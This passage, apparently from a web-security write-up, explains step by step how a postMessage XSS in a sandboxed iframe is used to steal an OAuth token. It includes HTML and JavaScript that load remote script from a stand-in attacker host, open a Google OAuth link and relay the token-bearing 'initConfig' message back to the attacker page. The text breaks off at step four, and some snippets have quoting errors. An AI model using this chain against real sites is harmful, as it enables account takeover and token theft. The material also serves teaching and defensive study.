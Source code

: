 ### Attack

In this case the **attacker loads an iframe with the Post-message XSS vuln page**, and **exploits** the **XSS** to load **arbitrary JS.**\
This **JS** will **open** a **tab** with the **OAuth link**. After logging in, the final page contains the toke in the URL and has loaded an iframe (the XSS post-message vuln iframe).

Then, the **arbitrary JS** (from the exploited XSS) has an **opener to that tab**, so it **access the iframe** and makes it **ask the parent for the `initConfig`** (which contains the **URL with the token**). The parent page **gives it to the iframe**, which is **also commanded to leak it**.\


In this case, I could do a similar method like the previos example:

1.  Create a **malicious** **page** that’s embedding an **iframe** of the sandbox, attach an **onload** to **trigger a script when the iframe is loaded**.

    ```html
    <div id="leak"><iframe
    id="i" name="i"
    src="https://challenge-iframe.example.com/"
    onload="run()"
    style="border:0;width:500px;height:500px"></iframe></div>
    ```
2.  Since the **malicious page is then the parent** of the iframe, it could **send a message to the iframe to load our script** in the origin of the sandbox using **postMessage (XSS)**:

    ```html
    <script>
    function run() {
      i.postMessage({type:'loadJs',jsUrl:'https://attacker.test/inject.js'}, '*')
    }
    </script>
    ```
3.  In my script being loaded in the sandbox, I replaced the content with the **link for the victim**:

    ```javascript
    document.body.innerHTML = '<a href="#" onclick="
    b=window.open("https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...");">
    Click here to hijack token</a>';
    ```

    I also started a script in an interval to **check if the link was opened and the iframe I wanted to reach was there**, to run javascript inside it from my iframe to the main window. I then attached a postMessage-listener that passed over the message back to my iframe in the malicious window:

    ```javascript
    x = setInterval(function() {
      if(b && b.frames[1]) {
        b.frames[1].eval(
          'onmessage=function(e) { top.opener.postMessage(e.data, "*") };' +
          'top.postMessage({type:'initConfig'},"*")'
        )
        clearInterval(x)
      }
    }, 500);
    ```
4.  The attacker page that had the iframe loaded can then listen to the message I sent from the injected postMessage listener proxy in the main window’s iframe:
